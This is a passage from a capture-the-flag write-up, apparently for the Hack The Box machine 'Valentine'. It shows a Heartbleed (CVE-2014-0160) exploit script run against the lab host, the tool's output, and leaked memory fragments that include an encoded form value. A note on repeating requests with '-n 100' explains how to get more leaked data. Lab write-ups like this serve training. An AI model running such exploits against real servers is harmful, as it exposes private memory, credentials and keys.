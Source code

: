 ```
python heartbleed.py 10.10.10.79
```

```
root@kali-[~/htb/valentine/exploits]python heartbleed.py 10.10.10.79

defribulator v1.16
A tool to test and exploit the TLS heartbeat vulnerability aka heartbleed (CVE-2014-0160)

##################################################################
Connecting to: 10.10.10.79:443, 1 times
Sending Client Hello for TLSv1.0
Received Server Hello for TLSv1.0

WARNING: 10.10.10.79:443 returned more data than it should - server is vulnerable!
Please wait... connection attempt 1 of 1
##################################################################

.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==...`aNG
```

And we can see that it is giving us more data than it should have so Heartbleed is present on this host. The problem is though is that this output seems pretty useless. We do see something about `0.0.1/decode.php` which is interesting because we saw that file earlier. The thing to do now is keep sending requests to see if there is any interesting data that comes out of it. We can specify how many times we want it to connect by using the `-n` flag which specifies the number of times it should return data back to us. I did 100 which is probably a little overkill but we got something useful out of running this command:

```
python heartbleed.py 10.10.10.79 -n 100
```

```
$text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==..R..[.8~...g;./.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.@....SC[...r....+..H...9...
....w.3....f...
...!.9.8.........5...............
.........3.2.....E.D...../...A.................................I.........
...........
...................................#.......0.0.1/decode.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 42
```
